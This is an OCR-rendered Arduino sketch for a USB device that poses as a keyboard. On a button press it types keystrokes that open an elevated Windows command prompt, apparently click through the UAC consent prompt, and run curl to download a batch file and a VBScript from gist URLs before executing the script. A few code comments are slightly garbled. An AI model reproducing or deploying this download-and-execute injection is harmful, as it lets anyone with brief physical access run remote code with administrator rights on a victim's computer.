 void setup() {
  // put your setup code here, to run once:
    pinMode(buttonPin, INPUT);
    pinMode(osButtonPin, INPUT);
  Serial.begin(115200);
 Keyboard.begin();  // Initialise the library.

}

void loop() {
     buttonState = digitalRead(buttonPin);

  // check if the pushbutton is pressed.
  // if it is, the buttonState is HIGH:
  if (buttonState == HIGH) {
      // put your main code here, to run repeatedly:
      Keyboard.press(KEY_LEFT_GUI);     // Press and hold the Windows key.
      Keyboard.press(&#x27;r&#x27;);              // Press and hold the &#x27;r&#x27; key.
      delay(100);                       // Wait for the computer to register the press.
      Keyboard.releaseAll();            // Release both of the above keys.Notepado open.
        // Press the Enter key.k
              delay(100);                       // Wait for the computer to register the press.

      Keyboard.print(&quot;cmd.exe&quot;);
            delay(100);                       // Wait for the computer to register the press.

     Keyboard.press(KEY_LEFT_CTRL);
     Keyboard.press(KEY_LEFT_SHIFT);
     Keyboard.press(KEY_RETURN);
                 delay(200);  
                 // Wait for the computer to register the press.

       Keyboard.releaseAll();  
                   delay(400); 
                   // Wait for the computer to register the press.

    Keyboard.press(KEY_LEFT_ARROW);
                         delay(400);                       // Wait for the computer to register the press.

           Keyboard.releaseAll(); 

                     delay(100);                       // Wait for the computer to register the press.

     Keyboard.press(KEY_RETURN);
                 delay(100);                       // Wait for the computer to register the press.


            
                                    Keyboard.releaseAll(); 
                                                     delay(200
                                                     );                       // Wait for the computer to register the press.

// Wait for the computer to register the press.




      Keyboard.print(&quot;curl -s https://gist.githubusercontent.com/lennymelnik/41239f2cfb68673595835071b5cd8cd3/raw/88a437c5a5f1a37479f056594d39fe69802e158b/checkPython &gt; checkPython.bat &amp;&amp; curl -s https://gist.githubusercontent.com/lennymelnik/608ddc3fd7db791a6ad7930a3cbf9b85/raw/943f3b5f008e862f6c5e4978281e7bfe20e6cb1c/startEverything &gt; startEverything.vbs &amp;&amp; startEverything.vbs&quot;);
                                  delay(2000);                       // Wait for the computer to register the press.
